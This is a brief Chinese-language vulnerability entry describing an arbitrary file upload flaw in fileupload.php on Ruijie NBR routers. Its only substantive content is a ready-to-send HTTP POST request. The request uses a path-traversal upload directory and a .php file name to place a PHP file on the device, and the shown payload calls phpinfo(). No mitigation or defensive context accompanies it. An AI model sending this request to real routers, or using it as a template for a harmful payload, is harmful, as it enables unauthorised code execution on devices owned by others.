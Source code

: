 # 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

```
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

